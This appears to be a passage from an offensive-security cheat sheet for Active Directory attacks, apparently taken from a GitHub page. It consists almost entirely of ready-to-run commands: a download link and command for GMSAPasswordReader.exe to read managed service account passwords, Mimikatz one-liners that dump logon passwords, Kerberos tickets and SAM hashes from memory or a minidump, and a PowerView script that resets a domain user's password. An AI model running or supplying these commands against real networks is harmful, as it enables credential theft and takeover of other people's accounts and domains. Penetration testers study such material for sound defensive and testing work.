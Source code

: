 Next, you need to download [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe), transfer it to your machine, and then run it:

```
.\GMSAPasswordReader.exe — AccountName ‘user_name’
```

## Mimikatz

```powershell
# mimikatz one-liner
.\mimikatz64.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "lsadump::sam" "exit"

.\mimikatz64.exe "privilege::debug" "sekurlsa::tickets /export" "exit"

.\mimikatz64.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# SAM & SYSTEM
./mimikatz64.exe "lsadump::sam  /system:C:\windows.old\windows\system32\SYSTEM /sam:C:\windows.old\windows\system32\SAM" "exit"
```

```
privilege::debug
mimikatz token::elevate
sekurlsa::logonpasswords
sekurlsa::tickets
sekurlsa::minidump lsass.dmp
```

## Domain User Password Change

```powershell
Import-Module .\PowerView.ps1

$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\$USERNAME', $SecPassword)

$userPassword = ConvertTo-SecureString 'PASSWORD' -AsPlainText -Force

Set-DomainUserPassword -Identity $USERNAME -AccountPassword $userPassword -Credential $Cred -Verbose
```

